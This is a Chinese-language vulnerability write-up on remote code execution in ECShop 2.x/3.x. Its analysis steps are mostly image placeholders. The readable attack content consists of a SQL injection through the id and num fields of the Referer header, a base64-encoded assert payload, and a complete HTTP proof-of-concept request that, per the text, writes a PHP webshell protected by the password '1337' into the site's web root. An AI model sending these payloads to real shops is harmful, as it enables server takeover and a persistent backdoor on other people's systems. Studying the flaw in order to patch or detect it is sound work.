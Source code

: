 # ECShop <= 2.7.x 代码执行漏洞

### 一、漏洞简介

### 二、漏洞影响

ECShop（2.x、3.0.x、3.6.x）

### 三、复现过程

漏洞分析

![](images/15889997047304.png)


继续看fetch函数

![](images/15889997121670.png)


追踪_eval函数

![](images/15889997184110.png)


`$position_style`变量来源于数据库中的查询结构

![](images/15889997290903.png)


然后我们继续构造SQL注入，因为这段sql操作 order by部分换行了截断不了 所以需要在id处构造注释来配合num进行union查询

![](images/15889997359757.png)


**payload**


```sql
SELECT a.ad_id, a.position_id, a.media_type, a.ad_link, a.ad_code, a.ad_name, p.ad_width, p.ad_height, p.position_style, RAND() AS rnd FROM `ecshop27`.`ecs_ad` AS a LEFT JOIN `ecshop27`.`ecs_ad_position` AS p ON a.position_id = p.position_id WHERE enabled = 1 AND start_time <= '1535678679' AND end_time >= '1535678679' AND a.position_id = ''/*' ORDER BY rnd LIMIT */ union select 1,2,3,4,5,6,7,8,9,10-- -
```

函数中有一个判断

![](images/15889997531505.png)


我们 id传入`’/*`

num传入`*/ union select 1,0x272f2a,3,4,5,6,7,8,9,10– -`就能绕过了

![](images/15889997666860.png)


var_dump一下

![](images/15889997748176.png)


![](images/15889997778543.png)


再看fetch函数,传入的参数被fetch_str函数处理了

![](images/15889997846147.png)


追踪fetch_str函数，这里的字符串处理流程比较复杂

![](images/15889997939452.png)



```
return preg_replace("/{([^\}\{\n]*)}/e", "\$this->select('\\1');", $source);
```

这一行意思是比如`$source是xxxx{$asd}xxx`,那么经过这行代码处理后就是返回`this->select(‘$asd’)`的结果

看看select函数

![](images/15889998134426.png)


第一个字符为`$时进入$this->get_val`函数

![](images/15889998250064.png)


我们`$val`没有`.$又进入make_var`函数

![](images/15889998410510.png)


最后这里引入单引号从变量中逃逸

![](images/15889998476334.png)


我们要闭合_var所以最终payload是


```bash
{$asd'];assert(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJzEudHh0JywnZ2V0c2hlbGwnKQ=='));//}xxx
```

会在网站跟目录生成1.txt 里面内容是getshell

![](images/15889998717195.png)


**poc**


```bash
GET /user.php?act=login HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:280:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:3:"'/*";}
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

会在网站根目录生成1.php 密码是1337

**参考链接**

https://cloud.tencent.com/developer/article/1333449